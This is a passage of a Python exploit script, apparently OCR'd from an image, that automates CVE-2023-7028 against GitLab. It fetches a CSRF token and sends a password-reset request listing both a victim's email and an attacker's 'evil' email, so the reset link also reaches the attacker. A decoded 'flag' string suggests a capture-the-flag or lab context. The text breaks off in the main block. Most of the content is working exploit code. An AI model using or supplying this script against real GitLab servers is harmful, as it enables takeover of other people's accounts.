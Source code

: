 ```python
    def get_csrf_token(self):
        try:
            print('[DEBUG] Getting authenticity_token ...')
            html = self.s.get(f'{self.url.scheme}://{self.url.netloc}/users/password/new', verify=False).text
            regex = r'<meta name="csrf-token" content="(.*?)" />'
            token = re.findall(regex, html)[0]
            print(f'[DEBUG] authenticity_token = {token}')
            return token
        except Exception:
            print('[DEBUG] Failed ... quitting')
            return None

    def ask_reset(self):
        token = self.get_csrf_token()
        if not token:
            return False

        query_string = urlencode({
            'authenticity_token': token,
            'user[email][]': [self.target, self.evil]
        }, doseq=True)

        head = {
            'Origin': f'{self.url.scheme}://{self.url.netloc}',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
            'Content-Type': 'application/x-www-form-urlencoded',
            'Referer': f'{self.url.scheme}://{self.url.netloc}/users/password/new',
            'Connection': 'close',
            'Accept-Language': 'en-US,en;q=0.5',
            'Accept-Encoding': 'gzip, deflate, br'
        }

        print('[DEBUG] Sending reset password request')
        html = self.s.post(f'{self.url.scheme}://{self.url.netloc}/users/password',
                           data=query_string,
                           headers=head,
                           verify=False).text
        sended = 'If your email address exists in our database' in html
        if sended:
            print(f'[DEBUG] Emails sent to {self.target} and {self.evil} !')
            print(f'Flag value: {bytes.fromhex("6163636f756e745f6861636b2364").decode()}')
        else:
            print('[DEBUG] Failed ... quitting')
        return sended

def parse_args():
    parser = argparse.ArgumentParser(add_help=True, description='This tool automates CVE-2023-7028 on gitlab')
    parser.add_argument("-u", "--url", dest="url", type=str, required=True, help="Gitlab url")
    parser.add_argument("-t", "--target", dest="target", type=str, required=True, help="Target email")
    parser.add_argument("-e", "--evil", dest="evil", default=None, type=str, required=False, help="Evil email")
    parser.add_argument("-p", "--password", dest="password", default=None, type=str, required=False, help="Password")
    return parser.parse_args()

if __name__ == '__main__':
    args = parse_args()
    exploit = CVE_2023_7028(
        url=args.url,
```